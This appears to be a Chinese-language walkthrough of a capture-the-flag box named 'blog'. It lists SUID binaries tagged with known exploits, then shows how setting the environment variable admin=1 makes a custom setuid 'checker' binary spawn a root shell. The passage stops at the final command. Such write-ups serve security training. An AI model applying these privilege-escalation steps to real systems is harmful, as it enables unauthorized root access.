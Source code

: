 -rwsr-xr-x 1 root root 53K Mar 25  2019 /snap/core/8268/usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 134K Oct 11  2019 /snap/core/8268/usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-- 1 root systemd-resolve 42K Jun 10  2019 /snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper (Unknown SUID binary)
-rwsr-xr-x 1 root root 419K Mar  4  2019 /snap/core/8268/usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 105K Dec  6  2019 /snap/core/8268/usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-- 1 root dip 386K Jun 12  2018 /snap/core/8268/usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root root 40K Jan 27  2020 /snap/core/9066/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K May  7  2014 /snap/core/9066/bin/ping
-rwsr-xr-x 1 root root 44K May  7  2014 /snap/core/9066/bin/ping6
-rwsr-xr-x 1 root root 40K Mar 25  2019 /snap/core/9066/bin/su
-rwsr-xr-x 1 root root 27K Jan 27  2020 /snap/core/9066/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 71K Mar 25  2019 /snap/core/9066/usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 40K Mar 25  2019 /snap/core/9066/usr/bin/chsh (Unknown SUID binary)
-rwsr-xr-x 1 root root 74K Mar 25  2019 /snap/core/9066/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39K Mar 25  2019 /snap/core/9066/usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 53K Mar 25  2019 /snap/core/9066/usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)

```

# 留意这一行
```-rwsr-sr-x 1 root root 8.3K May 26  2020 /usr/sbin/checker (Unknown SUID binary)```

# 执行这个命令，一直返回Not an Admin
```
$ checker
checker
Not an Admin
```

# 用ltrace跟踪函数调用情况
```
$ ltrace checker
ltrace checker
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
```

发现当admin=nil时，就会返回Not an Admin

我们手动把admin的值变为1

# 再次跟踪，发现流程已经导/bin/bash
```
$ export admin=1
export admin=1
$ ltrace checker
ltrace checker
getenv("admin")                                  = "1"
setuid(0)                                        = -1
system("/bin/bash"www-data@blog:/home/bjoel$ 
```


# 执行checker，成功提权到root，拿到root.txt和user.txt
```
www-data@blog:/home/bjoel$ checker
checker